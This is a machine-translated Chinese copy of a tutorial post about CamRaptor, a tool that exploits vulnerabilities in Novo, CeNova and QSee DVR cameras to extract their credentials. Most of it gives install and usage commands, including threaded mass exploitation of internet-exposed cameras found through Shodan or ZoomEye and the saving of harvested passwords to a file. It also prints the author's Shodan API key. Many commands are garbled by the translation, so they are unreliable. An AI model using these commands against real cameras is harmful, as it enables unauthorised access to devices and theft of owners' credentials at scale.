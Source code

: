 # CamRaptor:利用流行的 DVR 摄像机中的几个漏洞来获取网络摄像机凭证的工具

> 原文：<https://kalilinuxtutorials.com/camraptor/>

[![CamRaptor : Tool That Exploits Several Vulnerabilities In Popular DVR Cameras To Obtain Network Camera Credentials](img//bb65cfc8bf349538c256544f57d59daa.png "CamRaptor : Tool That Exploits Several Vulnerabilities In Popular DVR Cameras To Obtain Network Camera Credentials")](https://1.bp.blogspot.com/--QeKtiSQ2K0/YN61TRrVXYI/AAAAAAAAJxg/xj1QOjtmFU4_pYQbiZNgrnhDYUNQDqPSgCLcBGAsYHQ/s1011/1%2B%25281%2529.png)

**CamRaptor** 是一个利用流行的 DVR 摄像机中的几个漏洞来获取网络摄像机凭证的工具。

**特性**

*   利用最流行的相机型号中的漏洞，如`**Novo**`、`**CeNova**`和`**QSee**`。
*   经过优化，可在启用线程的情况下同时利用列表中的多个摄像头。
*   简单的 CLI 和 API 用法。

**安装**

**pip3 安装 git+https://github . com/enty sec/cam raptor**

**基本用法**

要使用 CamRaptor，只需在终端中键入`**camraptor**`。

**用法:CamRaptor[-h][-t][-o OUTPUT][-I INPUT][-a ADDRESS]
[–shod an shod an][–zoo meye zoo meye][-p PAGES]
CamRaptor 是一个利用流行的 DVR
摄像机中的几个漏洞来获取网络摄像机凭证的工具。
可选参数:
-h，–help 显示此帮助消息并退出
-t，–线程使用线程进行最快的工作。
-o 输出，–输出输出
输出结果到文件。
-i 输入，–INPUT 输入
输入文件的地址。
-一个地址，–地址地址
单个地址。
–SHODAN SHODAN SHODAN API 密钥，用于通过互联网利用设备。
–用于通过互联网利用设备的 zoomeye ZOOMEYE ZoomEye API 密钥。
-p PAGES，–PAGES PAGES
你想从 ZoomEye 获取的页数。**

**例题**

**利用单个摄像头**

让我们黑了我的相机只是为了好玩。

**cam raptor-a 192 . 168 . 99 . 100**

**利用互联网上的摄像头**

让我们尝试使用 Shodan 搜索引擎来开发互联网上的相机，我们将使用它与`**-t**`快速开发。

**迅猛龙-t-【shodan PSK qe1 gyxggecyz 2191 h2jos 9 qvgd】**

**注:**给定的 Shodan API key **( `PSKINdQe1GyxGgecYz2191H2JoS9qvgD` )** 是我的 PRO API key，你可以使用这个 key 或者你自己的，可以自由的免费使用我们所有的资源。

**利用输入文件中的摄像机**

让我们尝试使用带有`**-t**`的开放式摄像机数据库进行快速开发。

**camraptor-t-I camera s . txt-o passwords . txt**

**注意:**会根据地址利用 **`cameras.txt`** 列表中的所有摄像机，并将获得的所有密码保存到 **`passwords.txt`。**

**API 使用**

CamRaptor 也有自己的 Python API，可以通过将 CamRaptor 导入到代码中来调用。

**从 camraptor 进口 CamRaptor**

**基本功能**

有所有 CamRaptor 的基本功能，可用于开发指定的摄像机。

*   `**exploit(address)**`–利用给定地址的单个摄像头。

**例题**

**利用单个摄像头**

**从 camraptor 导入 cam raptor
cam raptor = cam raptor()
creds = cam raptor . exploit(' 192 . 168 . 99 . 100 ')
print(creds)**

[**Download**](https://github.com/EntySec/CamRaptor)
